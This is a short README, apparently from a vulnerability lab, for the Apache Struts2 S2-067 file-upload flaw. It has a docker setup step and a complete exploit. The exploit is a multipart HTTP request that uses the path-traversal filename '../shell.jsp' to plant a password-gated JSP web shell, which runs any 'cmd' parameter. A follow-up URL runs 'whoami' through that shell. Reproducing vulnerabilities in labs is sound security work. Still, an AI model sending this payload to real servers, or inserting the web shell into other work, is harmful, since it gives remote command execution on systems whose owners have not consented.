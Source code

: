 # Struts2 S2-067

[中文版本(Chinese version)](README.zh-cn.md)

## Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/struts-1.0-SNAPSHOT` and you will see a simple page.

## Exploit

```
POST /struts-1.0-SNAPSHOT/upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

<% if("test".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../shell.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--

```

`http://127.0.0.1:8080/struts-1.0-SNAPSHOT/shell.jsp?pwd=test&cmd=whoami`
